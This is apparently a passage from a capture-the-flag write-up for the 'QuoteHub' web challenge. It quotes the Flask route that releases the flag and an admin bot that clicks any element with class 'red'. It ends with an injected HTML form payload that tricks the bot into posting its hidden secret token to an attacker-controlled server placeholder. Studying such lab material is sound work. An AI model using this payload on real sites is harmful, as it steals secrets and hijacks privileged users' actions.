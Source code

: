              return render_template ("quote_review.html", quote=q, SECRET_TOKEN=SECRET_TOKEN)

          action = request.form.get('action')
          secret = request.form.get('secret')
          if not isinstance(action, str) or action not in ['APPROVE', 'REJECT'] or secret != SECRET_TOKEN:
              return 'NOPE'

          if action == "REJECT":
              return redirect("/list", code=302)

          return "You did it! Here's your reward: " + FLAG
      ```
      * ```FLAG``` is read from ```os.environ```
      * ```ADMIN_COOKIE``` is read from ```os.environ```
      * ```SCRET_TOKEN``` is a random number
      * Since we don't have ```ADMIN_COOKIE```, instead of returning ```FLAG``` it'll just return 'NOPE'
      * ```FLAG``` will be returned if some one who has ```SECRET_TOKEN``` and ```APPROVE``` the quote with ```POST``` request
  * Now take a look at [bot.py](Web/QuoteHub/quotehub/bot/bot.py)
    ```python
    # print("get /quote/latest", flush=True)
    driver.get('http://127.0.0.1:2000/quote/latest')
    
    # print("reject button - press", flush=True)
    rejectBtn = WebDriverWait(driver, 5).until(
      EC.presence_of_element_located((By.CLASS_NAME, "red"))
    )
    rejectBtn.click()

    # print("sleep 3", flush=True)
    time.sleep(3)
    ```
    * The bot is going to automatically click on the button if its class name is ```red```
    * The bot has ```ADMIN_COOKIE``` and thus when it views the ```quote_review.html``` it can see the quotes added by clients. Moreover, ```SECRET_TOKEN``` is a hidden value in form
      ```html
      <form method="POST">
        <input type="hidden" name="secret" value="{{SECRET_TOKEN}}">
        <input class="btn green" type="submit" name="action" value="APPROVE">
        <input class="btn red" type="submit" name="action" value="REJECT">
      </form>
      ```
  * We can take advantage of the bot and make it click on our fake ```red``` button in the fake form which will sent form parameters and their corresponding values including ```SECRET_TOKEN``` to our server
    * ```<form method="POST" action="[CONTROLED-SERVER-URL]"><input class="red" type="submit" name="action" value="APPROVE">```<br>